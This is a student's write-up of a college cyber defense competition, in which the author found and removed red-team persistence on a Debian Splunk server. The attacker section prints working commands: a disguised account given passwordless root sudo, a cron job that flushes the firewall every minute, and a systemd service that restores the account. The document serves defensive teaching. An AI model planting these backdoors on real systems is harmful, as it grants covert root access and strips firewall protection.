## Problem summary and threat context

The Collegiate Cyber Defense Competition (CCDC) flips the usual CTF format. Instead of breaking into a system, each team inherits a small company network that a professional red team has already compromised, and the team has to keep the business running while finding and removing the attackers. Points come from three places: keeping scored services online (40 percent), completing business tasks called injects (40 percent), and writing incident reports (20 percent). On November 14 I competed in the Midwest CCDC Invitational with my school's team, in my first competition of this kind.



Our network had seven machines behind a Palo Alto firewall: an e-commerce server, a mail server, an Active Directory domain controller, a database server, two workstations, and a Debian server running Splunk. My partner and I owned the Splunk box. Splunk is a SIEM, a tool that collects logs from every machine so a defender can search them in one place. That made our box a high-value target, because an attacker who controls the SIEM can hide everything they do elsewhere. Four checks on this machine were scored: SSH, ping, a Splunk search query, and the Splunk management port.

## Attacker walkthrough

The red team had planted almost all of their access before the competition started, so this section reconstructs what they did from the artifacts I found. Every step below can be reproduced on a throwaway Debian VM to practice finding it.

### Part 1: A disguised admin account

Debian ships a real account called `_chrony` for its time service, which cannot log in. The red team created `svc-chrony` with the same description so it would blend in, then gave it a login shell, three privileged groups, and a sudoers file that grants root without a password.

```bash
useradd -r -c "Chrony daemon" -d /var/lib/svc-chrony -s /bin/bash svc-chrony
usermod -aG sudo,adm,root svc-chrony
echo 'svc-chrony ALL=(ALL) NOPASSWD: ALL' > /etc/sudoers.d/svc-chrony
usermod -aG sudo docker            # a second backdoor using an existing system account
```





### Part 2: Persistence that undoes the defender's work

The next layer made sure any fix I applied would not last. Two root cron jobs, labeled `#Ansible: firewall` so they would pass as configuration management, flushed every firewall rule once a minute. One sat in root's crontab and the other hid in `/etc/cron.d/e2scrub`, which borrows the name of a real disk-checking job.

```bash
echo '* * * * * root iptables -F; iptables -P INPUT ACCEPT; nft flush ruleset' > /etc/cron.d/e2scrub
```

They also installed eight systemd services with names like `cgroup-prsd`, `systemd-kworker`, and `sssd-sync`. None of them came from any installed package. `cgroup-prsd` listened on UDP port 59482 as a remote entry point, and one service, `systemd-journal-sync`, ran a script that put `svc-chrony` back into its admin groups and reset its password whenever someone removed it.

```ini
# /etc/systemd/system/systemd-journal-sync.service (reconstructed from its behavior)
[Unit]
Description=Journal sync
[Service]
# the script loops: usermod -aG sudo,adm,root svc-chrony, then chpasswd to reset its password
ExecStart=/bin/bash /usr/lib/systemd/systemd-journal-sync
Restart=always
[Install]
WantedBy=multi-user.target
```





### Part 3: Using the access

Once the competition was underway, the attacker logged into the Splunk box over SSH as `svc-chrony` three times from 198.51.100.17, tried our `sysadmin` account once, and then flooded our terminals with ASCII art of the word "meow."





## Defender's analysis

### How I found it

My first pass used ordinary commands rather than special tools. Listing accounts that can log in (`grep -vE 'nologin|false' /etc/passwd`) exposed `svc-chrony` right away, because a service account with a bash shell is unusual. `ss -tulpn` showed the unknown process listening on UDP 59482, and `/proc/595/cmdline` plus `systemctl status 595` traced it to its service file. Reading `/etc/cron.d` showed one file modified on competition day while its neighbors dated from 2023.

The hardest problem was that `svc-chrony` kept regaining its groups within seconds of my removing them. Cron runs once a minute at most, so I knew a process was doing it. I added audit rules that record every write to `/etc/passwd` and `/etc/group`, and `ausearch` then named the program responsible.

```bash
auditctl -w /etc/group -p wa -k identity
ausearch -k identity -i | grep -E 'exe=|unit='
```





A second reason the account survived was that killing its processes with `pkill -u svc-chrony` missed the root shells the attacker had opened through sudo. Linux records the original login account in `/proc/<pid>/loginuid`, and that value does not change after sudo, so my guard script used it to find and kill every process the attacker started:

```bash
uid=$(id -u svc-chrony)
for f in /proc/[0-9]*/loginuid; do
  [ "$(cat "$f")" = "$uid" ] && pid=${f#/proc/} && kill -9 "${pid%/loginuid}"
done
```

In Splunk, one search tied the activity together by showing where the attacker address appeared and when:

```
index=* "198.51.100.17" | stats min(_time) as first max(_time) as last count by host
```



The first event came at 13:00:48, the minute the competition opened, on both the e-commerce and mail servers, so the attacker touched three of our five servers.

### Root cause and classification

The root cause was improper privilege management (CWE-269): an account that should not exist held root through group membership and a `NOPASSWD` sudoers rule. The persistence lines up with several MITRE ATT&CK techniques: creating a local account (T1136.001), cron jobs (T1053.003), systemd services (T1543.002), disabling the host firewall (T1562.004), and masquerading with system-like names (T1036).

### The fix

I removed the account from every privileged group, deleted the sudoers file, locked and expired the password, set the shell to `nologin`, and added a `DenyUsers` line to SSH so the account could not log in even if its password came back. I disabled and masked all eight services, removed the cron jobs, and blocked the attacker IP. Finally, a guard service I wrote re-checked all of this every three seconds and logged any change it reversed.

One thing I could not fix from my box was Active Directory. Around 16:47 the domain controller stopped responding entirely, and since the scored SSH and Splunk checks both log in with AD accounts, both went down even though SSH and Splunk themselves were still running.



## Reflection

This competition put the access control lectures into practice. The principle of least privilege says each account should have only the permissions it needs, and every backdoor here was a violation of it: a time-service account with a shell, a Docker account in sudo, and an unregistered domain user in Domain Admins. The malware lecture's point about attackers hiding in plain sight also held, since nearly every artifact copied a legitimate name.

The biggest lesson was that availability comes before hardening. The scoring rewards uptime, so every change I made had to keep SSH, ping, and Splunk working, which is why I disabled and locked things instead of deleting them. I also learned that a single dependency like Active Directory can take down services on a machine that is otherwise healthy, which is worth planning for before the next competition.

## References

CCDC. Collegiate Cyber Defense Competition. https://www.nationalccdc.org/

MITRE. CWE-269, Improper Privilege Management. https://cwe.mitre.org/data/definitions/269.html

MITRE ATT&CK. T1136.001, T1053.003, T1543.002, T1562.004, T1036. https://attack.mitre.org/

Linux Audit. auditctl and ausearch manual pages. https://man7.org/linux/man-pages/man8/auditctl.8.html

BYU CCDC. Public CCDC resources (Splunk setup scripts). https://github.com/BYU-CCDC/public-ccdc-resources
